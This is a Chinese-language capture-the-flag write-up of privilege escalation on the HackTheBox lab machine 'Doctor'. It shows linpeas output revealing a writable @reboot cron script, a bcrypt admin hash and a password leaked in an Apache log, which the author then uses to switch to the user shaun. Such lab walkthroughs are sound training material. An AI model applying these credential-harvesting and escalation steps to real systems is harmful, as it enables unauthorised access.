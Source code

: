 
# 提权 

传linpeas

有一个重启触发的定时任务
```
@reboot /home/web/blog.sh
```

bash文件可写，但是当前账号没有重启权限


找到一个哈希，但是貌似不可以被爆破
```
 -> Extracting tables from /opt/clean/site.db (limit 20)
  --> Found interesting column names in user (output limit 10)                                                      
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(20) NOT NULL, 
        email VARCHAR(120) NOT NULL, 
        image_file VARCHAR(20) NOT NULL, 
        password VARCHAR(60) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email)
)
1, admin, admin@doctor.htb, default.gif, $2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S

```



日志文件有一个优点奇怪的东西
"POST /reset_password?email=Guitar123" 里的这个Guitar123不像是邮箱，倒像是密码

```
╔══════════╣ Searching passwords inside logs (limit 70)
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
[    5.233165] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
[    5.605047] systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
[    5.605161] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
[    5.666833] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
Binary file /var/log/apache2/access.log.12.gz matches
```

尝试su一个用户
```
web@doctor:/tmp$ su shaun
su shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
whoami
shaun

```
是shaun的密码
